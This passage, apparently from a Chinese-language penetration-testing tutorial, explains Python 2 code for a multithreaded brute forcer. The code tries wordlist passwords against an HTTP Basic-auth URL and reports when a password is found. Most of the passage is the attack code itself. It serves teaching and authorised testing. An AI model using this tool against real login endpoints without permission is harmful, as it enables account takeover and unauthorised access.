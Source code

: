 1.  然后，在`launcher_thread`中，我们有一个`while`循环，直到密码数组中没有任何单词为止：

```py
def launcher_thread(names, th, username, url):
    global i
    i = []
    i.append(0)
    while len(names):
        if hit == "1":
            try:
                if i[0] < th:
                    n = names.pop(0)
                    i[0] = i[0] + 1
                    thread = request_performer(n, username, url)
                    thread.start()

            except KeyboardInterrupt:
                print "Brute forcer interrupted by user. Finishing attack.."
                sys.exit()
            thread.join()
        else:
            sys.exit()
    return
```

因此，对于数组中的每个单词，我们都执行`pop`，然后用`n`、`username`和`url`实例化`request_performer`类。

1.  在`request_performer`中，我们为对象定义了一些属性，然后执行 GET 请求：

```py
class request_performer(Thread):
    def __init__(self, name, user, url):
        Thread.__init__(self)
        self.password = name.split("\n")[0]
        self.username = user
        self.url = url
        print "-" + self.password + "-"

    def run(self):
        global hit
        if hit == "1":
            try:
                r = requests.get(self.url, auth=(self.username, self.password))
                if r.status_code == 200:
                    hit = "0"
                    print "[+] Password found - " + colored(self.password, 'green') + " - !!!\r"
                    sys.exit()
                else:
                    print "Not valid " + self.password
                    i[0] = i[0] - 1 # Here we remove one thread from the counter
            except Exception, e:
                print e
```
